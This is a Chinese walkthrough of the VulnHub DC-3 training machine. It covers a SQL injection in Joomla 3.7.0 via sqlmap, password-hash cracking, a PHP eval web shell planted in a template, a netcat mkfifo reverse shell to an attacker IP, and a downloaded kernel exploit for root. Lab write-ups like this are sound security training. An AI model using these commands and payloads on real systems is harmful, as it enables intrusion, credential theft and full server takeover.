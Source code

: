 # DC 3

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-3,312/

![](./img/vulnhub-dc3-1.png)

## 知识点

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 172.16.8.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 172.16.8.71
```

目标是joomla的网站


## 漏洞利用

```bash
joomscan --url http://172.16.8.71 # 看出Joomla 3.7.0
searchsploit Joomla 3.7.0  # 寻找框架漏洞
```

![](./img/vulnhub-dc3-2.png)

目标版本存在SQL注入漏洞

```
cp /usr/share/exploitdb/exploits/php/webapps/42033.txt  jommla.txt
cat  jommla.txt
```

![](./img/vulnhub-dc3-3.png)

```bash
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
![](./img/vulnhub-dc3-4.png)

```
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
```

![](./img/vulnhub-dc3-5.png)

利用 johnny 暴力破解,获得密码为snoopy

```
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

登录后台`http://172.16.8.71/administrator/index.php`

![](./img/vulnhub-dc3-6.png)
![](./img/vulnhub-dc3-7.png)
![](./img/vulnhub-dc3-8.png)

新建test.php,插入木马一句话

```php
<?php eval($_POST[1]);?>
```

蚁剑连接
```
http://172.16.8.71/templates/beez3/test.php
```

![](./img/vulnhub-dc3-9.png)


反弹shell
```bash
nc -lnvp 1337
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.8.68 1337 >/tmp/f');?>
# 上面写到test文件里
```

![](./img/vulnhub-dc3-10.png)

可见权限是www-data，接下来是内核提权

信息收集
```bash
lsb_release -a
uname -a
```

![](./img/vulnhub-dc3-11.png)

```bash
searchsploit ubuntu 16.04 4.4.x
earchsploit -m 39772
cat 39772.txt
proxychains4 wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

传输exp
```
python -m SimpleHTTPServer 80
wget http://10.30.0.81/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```

![](./img/vulnhub-dc3-12.png)
![](./img/vulnhub-dc3-13.png)

## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC3-WalkThrough.md
- http://www.kxsy.work/2021/08/11/shen-tou-dc-3/